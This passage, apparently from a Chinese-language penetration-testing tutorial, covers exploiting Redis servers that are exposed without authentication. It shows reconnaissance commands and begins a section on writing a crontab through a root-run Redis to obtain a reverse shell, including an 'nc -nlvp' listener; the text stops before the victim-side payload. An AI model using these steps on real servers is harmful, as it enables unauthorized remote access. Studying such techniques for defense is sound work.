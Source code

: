 [![](assets/1702372985-8ff4ddeabc1b8925bfb1d8eb004aeabf.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/6.png)

登录的结果可以看出该 redis 服务对公网开放，且未启用认证。

```bash
    > info   # 查看 redis 版本信息、一些具体信息、服务器版本信息等等：
    > CONFIG GET dir # 获取默认的 redis 目录
    > CONFIG GET dbfilename # 获取默认的 rdb 文件名
```

举例输入 info，查看到大量敏感信息。

[![](assets/1702372985-e4d0d08133d68102982b7cc0240e4935.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/7.png)

#### [](#2-%E5%88%A9%E7%94%A8crontab%E5%8F%8D%E5%BC%B9shell "2.利用crontab反弹shell")2.利用 crontab 反弹 shell[](#2-%E5%88%A9%E7%94%A8crontab%E5%8F%8D%E5%BC%B9shell)

在 redis 以 root 权限运行时可以写 crontab 来执行命令反弹 shell

先在自己的 kali/服务器上监听一个端口 nc -nlvp 5678

[![](assets/1702372985-6b246f8aaa9dcfa1cdad581a4f47e1b8.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/8.png)

然后通过未授权访问连接上服务器执行命令
